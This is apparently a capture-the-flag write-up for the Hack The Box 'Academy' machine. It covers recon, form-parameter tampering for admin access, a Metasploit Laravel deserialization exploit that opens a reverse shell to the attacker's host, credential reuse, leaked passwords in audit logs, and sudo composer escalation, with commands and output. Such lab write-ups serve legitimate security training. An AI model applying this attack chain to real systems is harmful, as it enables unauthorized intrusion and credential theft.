

Academy
1. Information
- Linux
- Easy class
- Released Nov 2020
- Retired Mar 2021
Academy is an easy-rated machine based mostly on reconnaissance and hunting for credentials. It also features a composer exploit.
2. Foothold
Sometimes HTB boxes will have HTTP servers configured only for name.htb style virtual
hosts, so let's add the host to
/etc/hosts first.
echo "10.10.10.125 dev-staging-01.academy.htb" | sudo tee --append /etc/hosts
Running nmap -sC -sV -T4 -v academy.htb reveals two open TCP ports, 22 (SSH) and 80 (HTTP).
...
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
Opening the browser and pointing it to http://academy.htb will end up on a basic landing page with links to login and register. Looking at the register page source shows it has a hidden roleid field that is sent in the form data. Creating a user will allow us to login to the academy.htb site.
However, nothing seems to be working in this site.
The roleid parameter will prove useful. Poking at the PHP application, it seems admin.php is a valid path and would point to an admin login (you may guess this since it's a typical configuration, although gobuster dir -u http://academy.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x .php will tell you just as much). The default seems to be 0. Changing it to 1 in Burpsuite and trying to log in via /admin.php is successful and redirects to a different page.
This is a typical case where an application server will misplace trust in client supplied data, e.g. setting the user permission level from the client, something an unauthorized user should normally not be able to do.
Now let's visit the admin page.
echo "10.10.10.125 dev-staging-01.academy.htb" | sudo tee --append /etc/hosts
Fortunately for us, the staging site runs into an error. Applications configured for staging still might be configured to display debug information. Modern web apps will in this case often display a stack trace of the error and optionally dump the application environment to help with debugging.
By the looks of it the enviroment dump has some potentially useful information, for example the Laravel APP_KEY, DB_USERNAME, DB_PASSWORD and some information about other services running on the machine.
A search for laravel rce might lead you to this page which looks useful if you know the Laravel APP_KEY environment variable. Looking further, it seems that Metasploit has this exploit implemented in exploit/unix/http/laravel_token_unserialize_exec. Configuring and running it will net a www-data shell at /var/www/html/htb-academy-dev-01/public.
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit
/var/www/html/htb-academy-dev-01/public
...
[*] Started reverse TCP handler on 10.10.14.48:4444
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.110.239:45360) at 2021-03-09 12:59:14 +0000
ls
css
favicon.ico
index.php
js
robots.txt
web.config
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Now let's upgrade our shell with python3 -c "import pty;pty.spawn('/bin/bash')" and start looking around.
Obtaining users
cat /etc/passwd tells us there are several regular users with login shells configured on this machine. A quick cd /home && ls * shows that cry0l1t3 has the user flag. This user was also shown in the admin landing page after logging in.Searching for credentials
Looking around /var/www/html shows that it contains the academy application data as well as the staging application.
The /var/www/html/htb-academy-dev-01 directory contains a hidden .env file, containing the staging application environment. A netstat -plunt shows that there really is a MySQL server listening to the loopback interface. However, the MySQL credentials obtained from the staging app do not work and it looks like a red herring.
Fortunately, if you look around the academy application it also has an environment file. Here we find many of the same entries but with different values.
...
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
...
First user
Trying mySup3rP4s5w0rd!! to log in with all the users will eventually drop you a shell for cry0l1t3. We can then upgrade to a more stable SSH session without a key, since password logins are enabled (cat /etc/ssh/sshd_config | grep Password will confirm this).
www-data@academy:/var/www/html/academy$ su cry0l1t3
su cry0l1t3
Password: mySup3rP4s5w0rd!!
$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
/home/cry0l1t3 contains the user flag, which we promptly grab.
Second user
cry0l1t3 doesn't have any sudo permissions, but belongs to a special group adm. It might be useful to check what files the adm group has access to, with the command find / -group adm 2>/dev/null. /var/log/audit seems to be in the results.Searching for this online may reveal that these are generated by an audit log daemon called aureport. Since cry0l1t3 can run it, we can look around. Particularly of interest is aureport --tty, which shows tty keystroke logs.
cry0l1t3@academy:/var/log/audit$ aureport --tty
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/20 02:28:10 83 0 ? 1 sh "su mrb3n",
2. 08/12/20 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",
3. 08/12/20 02:28:24 89 0 ? 1 sh "whoami",
4. 08/12/20 02:28:28 90 0 ? 1 sh "exit",
5. 08/12/20 02:28:37 93 0 ? 1 sh "/bin/bash -i",
Someone seems to have logged as mrb3n with su. The password works and yields a
shell.
Obtaining root
Running sudo -l explains that there's a sudo entry for the current user.
$ sudo -l
Matching Defaults entries for mrb3n on academy:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User mrb3n may run the following commands on academy:
(ALL) /usr/bin/composer
Using sudo to escalate privileges is a common tactic, so looking for common exploits for this software may prove useful.
Looking online for unix composer exploit, it seems to have a known vulnerability that allows obtaining root by executing arbitrary code as root. This will directly give us a root shell and fetch the root flag.